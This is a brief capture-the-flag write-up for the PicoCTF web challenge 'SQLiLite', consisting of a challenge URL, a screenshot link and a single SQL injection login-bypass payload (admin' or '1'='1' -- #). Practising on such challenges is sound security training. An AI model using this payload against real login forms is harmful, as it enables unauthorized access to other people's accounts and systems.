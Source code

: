 ```yaml
---
title: PicoCTF - SQLiLite
tags: [PicoCTF, CTF, Web]

category: "Security > Practice > PicoCTF > Web"
---
```


# PicoCTF - SQLiLite
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://saturn.picoctf.net:55837/

## Exploit - sqli
Payload:
`admin' or '1'='1' -- #`
![](https://i.imgur.com/yNgpTiY.png)